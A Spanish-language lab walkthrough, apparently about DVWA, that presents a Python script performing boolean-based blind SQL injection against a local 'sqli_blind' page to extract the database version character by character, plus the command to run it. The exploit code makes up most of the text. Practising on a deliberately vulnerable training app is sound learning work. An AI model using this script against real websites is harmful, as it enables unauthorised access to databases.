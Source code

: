 En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

'''

import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1

'''

Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

![Imagen](./images/dbVersion.png)


